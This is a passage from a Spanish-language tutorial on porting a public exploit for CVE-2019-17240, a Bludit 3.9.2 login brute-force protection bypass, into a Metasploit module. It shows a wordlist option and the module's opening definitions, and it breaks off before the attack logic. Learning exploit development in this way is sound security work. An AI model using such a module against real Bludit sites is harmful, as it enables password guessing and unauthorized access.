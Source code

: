 Mirando hacia atrás en nuestro exploit, vemos que se requerirá una lista de contraseñas en lugar de la variable `BLUDITPASS` para que el módulo fuerce las contraseñas para el mismo nombre de usuario. Se vería algo así como el siguiente fragmento:

```r
OptPath.new('PASSWORDS', [ true, 'The list of passwords',
          File.join(Msf::Config.data_directory, "wordlists", "passwords.txt") ])
```

El resto del código del exploit debe ajustarse según las clases, métodos y variables utilizadas en el portado al Metasploit Framework para que el módulo funcione al final. La versión final del módulo se vería así:

### Proof-of-Concept

```r
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::HttpClient
  include Msf::Exploit::PhpEXE
  include Msf::Auxiliary::Report
  
  def initialize(info={})
    super(update_info(info,
      'Name'           => "Bludit 3.9.2 - Authentication Bruteforce Mitigation Bypass",
      'Description'    => %q{
        Versions prior to and including 3.9.2 of the Bludit CMS are vulnerable to a bypass of the anti-brute force mechanism that is in place to block users that have attempted to login incorrectly ten times or more. Within the bl-kernel/security.class.php file, a function named getUserIp attempts to determine the valid IP address of the end-user by trusting the X-Forwarded-For and Client-IP HTTP headers.
      },
      'License'        => MSF_LICENSE,
      'Author'         =>
        [
          'rastating', # Original discovery
          '0ne-nine9'  #

 Metasploit module
        ],
      'References'     =>
        [
          ['CVE', '2019-17240'],
          ['URL', 'https://rastating.github.io/bludit-brute-force-mitigation-bypass/'],
          ['PATCH', 'https://github.com/bludit/bludit/pull/1090' ]
        ],
      'Platform'       => 'php',
      'Arch'           => ARCH_PHP,
      'Notes'          =>
        {
          'SideEffects' => [ IOC_IN_LOGS ],
          'Reliability' => [ REPEATABLE_SESSION ],
          'Stability'   => [ CRASH_SAFE ]
        },
      'Targets'        =>
        [
          [ 'Bludit v3.9.2', {} ]
        ],
      'Privileged'     => false,
```